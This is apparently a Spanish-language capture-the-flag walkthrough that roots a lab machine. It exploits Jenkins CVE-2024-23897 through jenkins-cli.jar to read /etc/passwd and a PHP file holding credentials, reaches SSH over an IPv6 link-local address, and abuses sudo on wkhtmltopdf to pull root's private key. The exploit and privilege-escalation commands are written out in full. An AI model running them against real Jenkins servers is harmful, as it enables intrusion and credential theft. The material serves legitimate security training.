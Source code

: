 Hacemos el escaneo de nmap:
![[Pasted image 20240317122039.png]]
Y esto corre por el puerto 80:
![[Pasted image 20240317122123.png]]
Hacemos fuzzing por directorios y extensiones, donde vemos un /connect.php:
```bash
gobuster dir -u http://192.168.0.17/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,html,sh,py,js
```
![[Pasted image 20240317122249.png]]
Pero no carga nada desde el navegador:
![[Pasted image 20240317122318.png]]
Y por el puerto 8080 visualizamos un jenkins:
![[Pasted image 20240317122450.png]]
Una vez en este punto, utilizamos whatweb para comprobar la versión de Jenkins:
![[Pasted image 20240317122534.png]]
Buscamos vulnerabilidades de esta versión y nos encontramos con lo siguiente:
```bash
https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2024-23897
```
Y en este repositorio nos dicen como explotar un LFI, donde nos dicen que mediante esa ruta nos descargamos un archivo .jar:
![[Pasted image 20240317122802.png]]
Nos lo descargamos poniendo dicha ruta:
```bash
http://192.168.0.17:8080/jnlpJars/jenkins-cli.jar
```
![[Pasted image 20240317122836.png]]
Y se nos dice que con el siguiente comando podemos visualizar archivos internos de la máquina, por ejemplo el /etc/passwd:
![[Pasted image 20240317123016.png]]
Lo ejecutamos:
```bash
java -jar jenkins-cli.jar -s http://192.168.0.17:8080/ -http connect-node "@/etc/passwd"
```
![[Pasted image 20240317123033.png]]
Ahora que podemos leer archivos internos de la máquina, vamos a intentar leer el archivo connect.php de antes que habíamos encontrado haciendo fuzzing:
```bash
java -jar jenkins-cli.jar -s http://192.168.0.17:8080/ -http connect-node "@/var/www/html/connect.php"
```
![[Pasted image 20240317123201.png]]
Tenemos las siguientes credenciales:
```bash
george:g30rg3_L3@k3D
```
Pero estas credenciales no funcionan:
![[Pasted image 20240317123338.png]]
Pero una cosa que podemos comprobar es el archivo if_inet6 en busca de alguna otra interfaz de red que funcione por IPv6:
```bash
java -jar jenkins-cli.jar -s http://192.168.0.17:8080/ -http connect-node "@/proc/net/if_inet6"
```
![[Pasted image 20240317123537.png]]
Estas direcciones se tratan de direcciones de enlace local. Sin embargo, tenemos que convertir esta dirección a notación estándar de IPv6:
```bash
fe80::20c:29ff:fe51:a51f%eth0
```
Hacemos el siguiente escaneo de nmap por IPv6 convirtiendo la IP obtenido de la interfaz ens33:
```bash
sudo nmap -6 -sS -sV -sC --min-rate=5000 -n -Pn fe80::20c:29ff:fe51:a51f%eth0
```
![[Pasted image 20240317124516.png]]
Nos conectamos por ssh y vemos que funciona:
```bash
ssh -6 george@fe80::20c:29ff:fe51:a51f%eth0
```
![[Pasted image 20240317124559.png]]
Ejecutamos el comando sudo -l y vemos una forma de escalar privilegios:
![[Pasted image 20240317124627.png]]
Debemos de enumerar los procesos que se están ejecutando en esta máquina con pspy64:
![[Pasted image 20240317124915.png]]
Y vemos que hay un archivo llamado private.txt:
![[Pasted image 20240317125035.png]]
Con la herramienta wkhtmltopdf vamos a convertirlo en pdf y así obtener dicho archivo:
```bash
sudo -u root /usr/bin/wkhtmltopdf /root/private.txt documento.pdf
```
![[Pasted image 20240317125136.png]]
Nos compartimos este archivo y vemos que se trata de un id_rsa probablemente de root:
![[Pasted image 20240317125224.png]]
Entramos con este id_rsa como root y funciona:
```bash
ssh -6 -i id_rsa root@fe80::20c:29ff:fe51:a51f%eth0
```
![[Pasted image 20240317125403.png]]
